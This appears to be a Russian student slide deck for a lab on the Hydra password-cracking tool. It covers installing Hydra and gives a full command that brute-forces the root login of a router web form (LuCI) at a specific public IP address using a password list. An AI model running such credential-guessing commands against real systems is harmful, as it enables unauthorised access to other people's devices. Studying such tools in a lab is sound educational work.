


---
## Front matter
lang: ru-RU
title: "Индивидуальный проект. Третий этап"
author:
  - Чемоданова А.А.

## i18n babel
babel-lang: russian
babel-otherlangs: english

## Formatting pdf
toc: false
toc-title: Содержание
slide_level: 2
aspectratio: 169
section-titles: true
theme: metropolis
header-includes:
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
---

## Цель работы

Использование Hydra.

## Выполнение лабораторной работы

Hydra используется для подбора или взлома имени пользователя и пароля.
Поддерживает подбор для большого набора приложений.

Установка Hydra. 

{#fig:001 width=70%}

## Выполнение лабораторной работы

Пример работы:

Исходные данные:
IP сервера 178.72.90.181;
Сервис http на стандартном 80 порту;
Для авторизации используется html форма, которая отправляет по адресу http://178.72.90.181/cgi-bin/luci методом POST запрос вида username=root&password=test_password;
В случае не удачной аутентификации пользователь наблюдает сообщение Invalid username and/or password! Please try again.

## Выполнение лабораторной работы

    Запрос к Hydra будет выглядеть примерно так:

hydra -l root -P ~/pass_lists/dedik_passes.txt -o ./hydra_result.log -f -V -s 80 178.72.90.181 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"

## Выполнение лабораторной работы

Ввод запроса. 

{#fig:002 width=70%}

## Выводы

Мы применили Hydra.
